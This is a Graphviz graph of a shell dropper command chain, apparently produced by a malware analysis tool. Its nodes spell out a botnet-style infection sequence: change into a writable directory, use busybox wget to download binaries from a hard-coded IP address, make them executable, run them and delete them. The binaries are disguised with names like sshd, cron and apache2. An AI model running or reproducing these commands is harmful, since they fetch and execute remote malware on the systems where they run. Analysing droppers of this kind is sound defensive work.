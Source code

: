 digraph {
240 [label="cd /tmp "];
240 -> 240
242 [label="cd /var/run "];
242 -> 244 [label="||,"];
244 [label="cd /mnt "];
244 -> 246 [label="||,"];
246 [label="cd /root "];
246 -> 248 [label="||,"];
248 [label="cd / "];
248 -> 10 [label="||,"];
10 [label="busybox wget http://107.150.48.174/ntpd "];
10 -> 12 [label=";,"];
12 [label="wget http://107.150.48.174/ntpd "];
12 -> 14 [label=";,"];
14 [label="chmod +x ntpd "];
14 -> 16 [label=";,"];
16 [label="./ntpd "];
16 -> 18 [label=";,"];
18 [label="rm -rf ntpd "];
18 -> 240 [label=";,"];
240 [label="cd /tmp "];
240 -> 240
242 [label="cd /var/run "];
242 -> 244 [label="||,"];
244 [label="cd /mnt "];
244 -> 246 [label="||,"];
246 [label="cd /root "];
246 -> 248 [label="||,"];
248 [label="cd / "];
248 -> 30 [label="||,"];
30 [label="busybox wget http://107.150.48.174/sshd "];
30 -> 32 [label=";,"];
32 [label="wget http://107.150.48.174/sshd "];
32 -> 34 [label=";,"];
34 [label="chmod +x sshd "];
34 -> 36 [label=";,"];
36 [label="./sshd "];
36 -> 38 [label=";,"];
38 [label="rm -rf sshd "];
38 -> 240 [label=";,"];
240 [label="cd /tmp "];
240 -> 240
242 [label="cd /var/run "];
242 -> 244 [label="||,"];
244 [label="cd /mnt "];
244 -> 246 [label="||,"];
246 [label="cd /root "];
246 -> 248 [label="||,"];
248 [label="cd / "];
248 -> 50 [label="||,"];
50 [label="busybox wget http://107.150.48.174/openssh "];
50 -> 52 [label=";,"];
52 [label="wget http://107.150.48.174/openssh "];
52 -> 54 [label=";,"];
54 [label="chmod +x openssh "];
54 -> 56 [label=";,"];
56 [label="./openssh "];
56 -> 58 [label=";,"];
58 [label="rm -rf openssh "];
58 -> 240 [label=";,"];
240 [label="cd /tmp "];
240 -> 240
242 [label="cd /var/run "];
242 -> 244 [label="||,"];
244 [label="cd /mnt "];
244 -> 246 [label="||,"];
246 [label="cd /root "];
246 -> 248 [label="||,"];
248 [label="cd / "];
248 -> 70 [label="||,"];
70 [label="busybox wget http://107.150.48.174/bash "];
70 -> 72 [label=";,"];
72 [label="wget http://107.150.48.174/bash "];
72 -> 74 [label=";,"];
74 [label="chmod +x bash "];
74 -> 76 [label=";,"];
76 [label="./bash "];
76 -> 78 [label=";,"];
78 [label="rm -rf bash "];
78 -> 240 [label=";,"];
240 [label="cd /tmp "];
240 -> 240
242 [label="cd /var/run "];
242 -> 244 [label="||,"];
244 [label="cd /mnt "];
244 -> 246 [label="||,"];
246 [label="cd /root "];
246 -> 248 [label="||,"];
248 [label="cd / "];
248 -> 90 [label="||,"];
90 [label="busybox wget http://107.150.48.174/tftp "];
90 -> 92 [label=";,"];
92 [label="wget http://107.150.48.174/tftp "];
92 -> 94 [label=";,"];
94 [label="chmod +x tftp "];
94 -> 96 [label=";,"];
96 [label="./tftp "];
96 -> 98 [label=";,"];
98 [label="rm -rf tftp "];
98 -> 240 [label=";,"];
240 [label="cd /tmp "];
240 -> 240
242 [label="cd /var/run "];
242 -> 244 [label="||,"];
244 [label="cd /mnt "];
244 -> 246 [label="||,"];
246 [label="cd /root "];
246 -> 248 [label="||,"];
248 [label="cd / "];
248 -> 110 [label="||,"];
110 [label="busybox wget http://107.150.48.174/wget "];
110 -> 112 [label=";,"];
112 [label="wget http://107.150.48.174/wget "];
112 -> 114 [label=";,"];
114 [label="chmod +x wget "];
114 -> 116 [label=";,"];
116 [label="./wget "];
116 -> 118 [label=";,"];
118 [label="rm -rf wget "];
118 -> 240 [label=";,"];
240 [label="cd /tmp "];
240 -> 240
242 [label="cd /var/run "];
242 -> 244 [label="||,"];
244 [label="cd /mnt "];
244 -> 246 [label="||,"];
246 [label="cd /root "];
246 -> 248 [label="||,"];
248 [label="cd / "];
248 -> 130 [label="||,"];
130 [label="busybox wget http://107.150.48.174/cron "];
130 -> 132 [label=";,"];
132 [label="wget http://107.150.48.174/cron "];
132 -> 134 [label=";,"];
134 [label="chmod +x cron "];
134 -> 136 [label=";,"];
136 [label="./cron "];
136 -> 138 [label=";,"];
138 [label="rm -rf cron "];
138 -> 240 [label=";,"];
240 [label="cd /tmp "];
240 -> 240
242 [label="cd /var/run "];
242 -> 244 [label="||,"];
244 [label="cd /mnt "];
244 -> 246 [label="||,"];
246 [label="cd /root "];
246 -> 248 [label="||,"];
248 [label="cd / "];
248 -> 150 [label="||,"];
150 [label="busybox wget http://107.150.48.174/ftp "];
150 -> 152 [label=";,"];
152 [label="wget http://107.150.48.174/ftp "];
152 -> 154 [label=";,"];
154 [label="chmod +x ftp "];
154 -> 156 [label=";,"];
156 [label="./ftp "];
156 -> 158 [label=";,"];
158 [label="rm -rf ftp "];
158 -> 240 [label=";,"];
240 [label="cd /tmp "];
240 -> 240
242 [label="cd /var/run "];
242 -> 244 [label="||,"];
244 [label="cd /mnt "];
244 -> 246 [label="||,"];
246 [label="cd /root "];
246 -> 248 [label="||,"];
248 [label="cd / "];
248 -> 170 [label="||,"];
170 [label="busybox wget http://107.150.48.174/pftp "];
170 -> 172 [label=";,"];
172 [label="wget http://107.150.48.174/pftp "];
172 -> 174 [label=";,"];
174 [label="chmod +x pftp "];
174 -> 176 [label=";,"];
176 [label="./pftp "];
176 -> 178 [label=";,"];
178 [label="rm -rf pftp "];
178 -> 240 [label=";,"];
240 [label="cd /tmp "];
240 -> 240
242 [label="cd /var/run "];
242 -> 244 [label="||,"];
244 [label="cd /mnt "];
244 -> 246 [label="||,"];
246 [label="cd /root "];
246 -> 248 [label="||,"];
248 [label="cd / "];
248 -> 190 [label="||,"];
190 [label="busybox wget http://107.150.48.174/sh "];
190 -> 192 [label=";,"];
192 [label="wget http://107.150.48.174/sh "];
192 -> 194 [label=";,"];
194 [label="chmod +x sh "];
194 -> 196 [label=";,"];
196 [label="./sh "];
196 -> 198 [label=";,"];
198 [label="rm -rf sh "];
198 -> 240 [label=";,"];
240 [label="cd /tmp "];
240 -> 240
242 [label="cd /var/run "];
242 -> 244 [label="||,"];
244 [label="cd /mnt "];
244 -> 246 [label="||,"];
246 [label="cd /root "];
246 -> 248 [label="||,"];
248 [label="cd / "];
248 -> 210 [label="||,"];
210 [label="busybox wget http://107.150.48.174/[cpu] "];
210 -> 212 [label=";,"];
212 [label="wget http://107.150.48.174/[cpu] "];
212 -> 214 [label=";,"];
214 [label="chmod +x [cpu] "];
214 -> 216 [label=";,"];
216 [label="./[cpu] "];
216 -> 218 [label=";,"];
218 [label="rm -rf [cpu] "];
218 -> 240 [label=";,"];
240 [label="cd /tmp "];
240 -> 240
242 [label="cd /var/run "];
242 -> 244 [label="||,"];
244 [label="cd /mnt "];
244 -> 246 [label="||,"];
246 [label="cd /root "];
246 -> 248 [label="||,"];
248 [label="cd / "];
248 -> 230 [label="||,"];
230 [label="busybox wget http://107.150.48.174/apache2 "];
230 -> 232 [label=";,"];
232 [label="wget http://107.150.48.174/apache2 "];
232 -> 234 [label=";,"];
234 [label="chmod +x apache2 "];
234 -> 236 [label=";,"];
236 [label="./apache2 "];
236 -> 238 [label=";,"];
238 [label="rm -rf apache2 "];
238 -> 240 [label=";,"];
240 [label="cd /tmp "];
240 -> 240
242 [label="cd /var/run "];
242 -> 244 [label="||,"];
244 [label="cd /mnt "];
244 -> 246 [label="||,"];
246 [label="cd /root "];
246 -> 248 [label="||,"];
248 [label="cd / "];
248 -> 250 [label="||,"];
250 [label="busybox wget http://107.150.48.174/telnetd "];
250 -> 252 [label=";,"];
252 [label="wget http://107.150.48.174/telnetd "];
252 -> 254 [label=";,"];
254 [label="chmod +x telnetd "];
254 -> 256 [label=";,"];
256 [label="./telnetd "];
256 -> 257 [label=";,"];
}

